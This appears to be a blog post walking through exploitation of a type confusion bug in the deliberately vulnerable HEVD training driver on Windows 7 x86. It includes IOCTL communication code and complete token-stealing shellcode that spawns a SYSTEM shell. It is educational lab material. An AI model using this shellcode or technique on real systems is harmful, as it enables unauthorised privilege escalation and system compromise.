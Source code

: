 ```yaml
---
layout: post
title: HEVD - Windows 7 x86 Kernel Type Confusion
date: 2020-02-09
tags: malware
---
```


----

Walkthrough for the HEVD Windows Kernel Driver exploitation, exploiting a Kernel level Type Confusion bug vulnerability.

### Exploit development = Windows 7 x86 Kernel Type Confusion

----

**What are Type Confusion bugs?**

Type Confusion bugs fall into the memory corruption class family, Type Confusion bugs tend to be highly exploitable, and there a lot of in-the-wild instances of Type Confusions being exploited (commonly in Browsers like Chromes V8 Engine).

Type Confusion occurs when a program allocates resources like a pointer or variable using one type, but later on, the program tries to access the same resources using a type that is not compatible with the original setting. This is the Type *confusion*, where the types of not compatible and thus leads to a vulnerability.

So when an application doesn't verify the type of object it's processing and then processes it as some other object, an attacker can abuse this.

----

**Bugs in Kernel-mode**

Since this is dealing with a Kernel-mode driver (HEVD), we will need to utilize an IOCTL and the same `CreateFileA()` and `DeviceIoControl()` functions to establish and obtain communication to a kernel-mode driver.

----

**HEVD vulnerable code analysis**

```c++
#ifdef SECURE
        //
        // Secure Note: This is secure because the developer is properly setting 'Callback'
        // member of the 'KERNEL_TYPE_CONFUSION_OBJECT' structure before passing the pointer
        // of 'KernelTypeConfusionObject' to 'TypeConfusionObjectInitializer()' function as
        // parameter
        //

        KernelTypeConfusionObject->Callback = &TypeConfusionObjectCallback;
        Status = TypeConfusionObjectInitializer(KernelTypeConfusionObject);
#else
        DbgPrint("[+] Triggering Type Confusion\n");

        //
        // Vulnerability Note: This is a vanilla Type Confusion vulnerability due to improper
        // use of the 'UNION' construct. The developer has not set the 'Callback' member of
        // the 'KERNEL_TYPE_CONFUSION_OBJECT' structure before passing the pointer of
        // 'KernelTypeConfusionObject' to 'TypeConfusionObjectInitializer()' function as
        // parameter
        //

        Status = TypeConfusionObjectInitializer(KernelTypeConfusionObject);
```

(This code is taken from the TypeConfusion.c file from the HEVD source release.)

As far as good and secure practices go, the first example of a secure program functionality show, 

```c++
KernelTypeConfusionObject->Callback = &TypeConfusionObjectCallback;
Status = TypeConfusionObjectInitializer(KernelTypeConfusionObject);
```

It's secure since the code is properly setting the `Callback` function before passing it to `KernelTypeConfusionObject` which is stored in a variable.

```c++
Status = TypeConfusionObjectInitializer(KernelTypeConfusionObject);
```
The vulnerable code is obvious since it's simply not properly setting the `Callback` before it is passing the pointer on to `KernelTypeConfusionObject` 

```c++
NTSTATUS
TypeConfusionObjectInitializer(
    _In_ PKERNEL_TYPE_CONFUSION_OBJECT KernelTypeConfusionObject
)
{
    NTSTATUS Status = STATUS_SUCCESS;

    PAGED_CODE();

    DbgPrint("[+] KernelTypeConfusionObject->Callback: 0x%p\n", KernelTypeConfusionObject->Callback);
    DbgPrint("[+] Calling Callback\n");

    KernelTypeConfusionObject->Callback();

    DbgPrint("[+] Kernel Type Confusion Object Initialized\n");

    return Status;
}
```

Within the `TypeConfusionObjectInitializer` function, there is the `PKERNEL_TYPE_CONFUSION_OBJECT` structure. This 
function will take an object and calls the function pointer which is in the object. 

The structure layout for `PKERNEL_TYPE_CONFUSION_OBJECT` structure is in TypeConfusion.h

```c++
typedef struct _USER_TYPE_CONFUSION_OBJECT
{
    ULONG_PTR ObjectID;
    ULONG_PTR ObjectType;
} USER_TYPE_CONFUSION_OBJECT, *PUSER_TYPE_CONFUSION_OBJECT;

#pragma warning(push)
#pragma warning(disable : 4201)
typedef struct _KERNEL_TYPE_CONFUSION_OBJECT
{
    ULONG_PTR ObjectID;
    union
    {
        ULONG_PTR ObjectType;
        FunctionPointer Callback;
    };
} KERNEL_TYPE_CONFUSION_OBJECT, *PKERNEL_TYPE_CONFUSION_OBJECT;
```
Essentially,

There are two structures, a user-mode object and a kernel-mode one. The user-mode one takes an `ObjectID` and a `ObjectType` as two members, but the kernel-mode structure is a UNION, and a UNION can only hold one member at a time, and since the kernel-mode one (UNION one) has two, the `ObjectType` and the `Callback`. This is where the confusion actually occurs. When the `TriggerTypeConfusion` function doesn't validate that the second member that is passed is the `ObjectType` or `Callback`

![union holds one](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/union-one.png)

You can probably already guess how the attack will play out.

----

**Driver communication & BSOD**

To set up an initial connection to the Device driver (in kernel land), we need an IOCTL. We can use IDA Pro for IOCTL discovery within the driver or check the HEVD source code.

```c++
#define HEVD_IOCTL_TYPE_CONFUSION                                IOCTL(0x808)
```

(from HackSysExtremeVulnerableDriver.h's IOCTL CTL_CODE macro definitions)

This IOCTL can be decoded with python to:

![macro calculation](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/macro.png)

After obtaining an IOCTL (0x222023) from the driver, we can utilize the CreateFileA() function to receive a handler to the drive. 

```python
device_handle = kernel32.CreateFileA("\\\\.\HackSysExtremeVulnerableDriver",
                                        0xC0000000,
                                        0,
                                        None,
                                        0x3,
                                        0,
                                        None)
```

After obtaining and opening a handler to the device, we can use the DeviceIoControl() function combined with our previously obtained IOCTL to send data to the driver.

```python
sending_payload = kernel32.DeviceIoControl(device_handle,
                            0x222023,
                            buffer_pointer,
                            buffer_size,
                            None, 0,
                            byref(c_ulong(), 0))
```

For exploitation puposes, all you need to do is pass a structure who's second member is the address of the function you want to call from kernel-land, in this case thats the pointer and address to our shellcode payload.

----

**Token stealing shellcode payload**

As a payload to obtain NT\Authority System privileges, we will be using the same token-stealing shellcode payload as seen in previous HEVD exploitation posts.

```python

token_stealing_shellcode = (
"\x60"                            # pushad
"\x64\x8b\x80\x24\x01\x00\x00"    # mov eax,[fs:eax+0x124]
"\x8b\x40\x50"                    # mov eax,[eax+0x50]
"\x89\xc1"                        # mov ecx,eax
"\xba\x04\x00\x00\x00"            # mov edx,0x4
"\x8b\x80\xb8\x00\x00\x00"        # mov eax,[eax+0xb8]
"\x2d\xb8\x00\x00\x00"            # sub eax,0xb8
"\x39\x90\xb4\x00\x00\x00"        # cmp [eax+0xb4],edx
"\x75\xed"                        # jnz 0x1a
"\x8b\x90\xf8\x00\x00\x00"        # mov edx,[eax+0xf8]
"\x89\x91\xf8\x00\x00\x00"        # mov [ecx+0xf8],edx
"\x61"                            # popad
"\x31\xC0"                        # NTSTATUS -> STATUS_SUCCESS
"\x5D"                            # pop ebp
"\xC2\x08\x00"                    # ret 8
# cleanup routine
"\x61"                            # popad
"\xc3"                            # ret
)

```

We can add a cleanup routine at the end of our shellcode payload to ensure it doesn't only last one time before the system goes BSOD. This is a POPAD followed by a RET, this will push all the register values to the stack and return to the normal program flow.

----

**Gaining full exploitation & EOP**

Now that we have the IOCTL, both functions to communicate with the driver, a pointer to out shellcode payload, and the proper cleanup function in our assembly shellcode payload, we can run the exploit against HEVD.sys

![EOP](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/typeconfusion_eop.png)

And you are presented with an NT AUTHORITY\SYSTEM spawned command prompt.

----

**Conclusion**

After finding an IOCTL and calculating it's values, we can communicate with a kernel-mode driver (HEVD.sys) and utilize a Type Confusion bug within a certain function in which we pass our IOCTL, buffer pointer, and buffer size to. Unlike the standard stack-based buffer overflow where you send the IOCTL, buffer ID, and the buffer size. Since we sent that pointer, we can take advantage of the Type Confusion bug. Giving us EOP (Escalation Of Privileges) and obtaining an NT AUTHORITY\SYSTEM shell on the system.

The full exploit code can be found [here](https://github.com/FULLSHADE/Windows-Kernel-Exploitation-HEVD/blob/master/HEVD_TypeConfusion.py)
